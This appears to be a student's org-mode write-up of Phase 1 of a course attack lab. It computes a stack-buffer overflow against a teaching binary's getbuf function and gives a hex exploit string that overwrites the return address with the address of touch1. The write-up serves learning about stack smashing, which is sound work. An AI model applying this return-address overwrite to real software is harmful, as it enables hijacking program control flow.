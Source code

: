 * Phase 1

CTARGET Level 1

The stack space of ~getbuf~ is ~0x28~. The address of ~touch1~ is
~0x4017c0~. Thus, the exploit string should consists of 40 bytes of
random garbage and a 8-byte wide ~0x4017c0~.

#+begin_example
c0 17 40 00 00 00 00 00 c0 17 40 00 00 00 00 00 c0 17 40 00 00 00 00 00 c0 17 40 00 00 00 00 00 c0 17 40 00 00 00 00 00 c0 17 40 00 00 00 00 00 
#+end_example
